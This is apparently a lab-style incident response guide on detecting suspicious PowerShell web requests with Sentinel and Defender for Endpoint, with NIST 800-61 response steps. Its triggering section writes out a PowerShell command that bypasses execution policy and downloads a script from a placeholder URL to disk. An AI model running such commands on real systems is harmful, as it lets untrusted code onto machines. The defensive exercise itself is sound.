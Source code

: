 # Incident Response Guide: PowerShell Suspicious Web Request

## 1. Detection Strategy

Created a Sentinel Alert to identify usage of `Invoke-WebRequest` via PowerShell targeting known untrusted sources.

## 2. Incident Triggering

The following PowerShell commands were executed on `windows-target-1`:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri [script URL] -OutFile C:\programdata\[filename].ps1
```

## 3. Investigation Steps (NIST 800-61)

- **Identification:** Alert from Microsoft Defender for Endpoint.
- **Analysis:** MDE and Sentinel queries confirmed script download and execution.
- **Validation:** Manual review and KQL queries cross-referenced script execution.

## 4. Containment, Eradication & Recovery

- Isolated `windows-target-1` via MDE.
- Performed malware scans (clean).
- System removed from isolation after confirmation.

## 5. Post-Incident Activities

- User awareness training conducted.
- Security policy improved (PowerShell restrictions deployed).
- Awareness training platform upgraded.

## 6. Cleanup Procedures

- Removed downloaded scripts.
- Reviewed related user/system activity logs.
- Refreshed endpoint policy baselines.
